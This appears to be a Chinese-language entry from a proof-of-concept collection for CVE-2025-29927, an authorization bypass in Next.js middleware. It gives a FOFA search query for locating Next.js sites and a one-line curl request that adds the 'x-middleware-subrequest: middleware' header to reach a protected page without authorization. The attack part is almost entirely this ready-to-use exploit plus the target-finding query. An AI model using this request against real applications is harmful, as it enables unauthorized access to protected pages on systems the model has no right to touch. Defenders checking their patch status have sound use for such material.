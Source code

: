 # Next中间件绕过漏洞(CVE-2025-29927)

Next.js 是一个用于构建全栈 Web 应用程序的 React 框架。在受影响的版本中，如果 Next.js 应用程序正在基于路径名的中间件中执行授权，则可能会绕过应用程序根目录下的页面的此授权，允许未经授权访问Next.js应用程序中的根级页面，这些页面本应受到授权检查的保护

## fofa
```javascript
app="NEXT.JS"
```

## poc
```javascript
curl -H "x-middleware-subrequest: middleware" http://10.10.72.67:3000/protected
```
![image](https://github.com/user-attachments/assets/2a39fd91-6b65-496a-b274-fee70dd9ca95)
![image](https://github.com/user-attachments/assets/36efa98c-cb6c-4fbc-b8a4-d42565ad9f28)

## 漏洞来源

- [https://mp.weixin.qq.com/s/rPBKzvNI9wc79tDr2KC5sA](https://github.com/aydinnyunus/CVE-2025-29927)
